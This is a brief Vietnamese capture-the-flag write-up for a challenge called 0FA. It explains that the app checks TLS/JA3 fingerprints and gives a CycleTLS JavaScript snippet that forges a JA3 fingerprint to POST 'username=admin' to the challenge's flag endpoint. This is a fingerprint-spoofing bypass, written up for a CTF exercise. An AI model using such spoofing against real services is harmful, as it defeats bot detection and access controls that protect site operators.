 # 0FA
Ứng dụng dùng TLS/JA3 fingerprints, mình đã search tool để spoof nó (https://github.com/Danny-Dasilva/CycleTLS).

```js
const initCycleTLS = require('cycletls');
// Typescript: import initCycleTLS from 'cycletls';

(async () => {
  // Initiate CycleTLS
  const cycleTLS = await initCycleTLS();

  // Send request
  const response = await cycleTLS('https://0fa.balsnctf.com:8787/flag.php', {
    body: 'username=admin',
    ja3: '771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0',
    headers: {'Content-Type': 'application/x-www-form-urlencoded'}
  }, 'POST');

  console.log(response);

  // Cleanly exit CycleTLS
  cycleTLS.exit();

})();

```

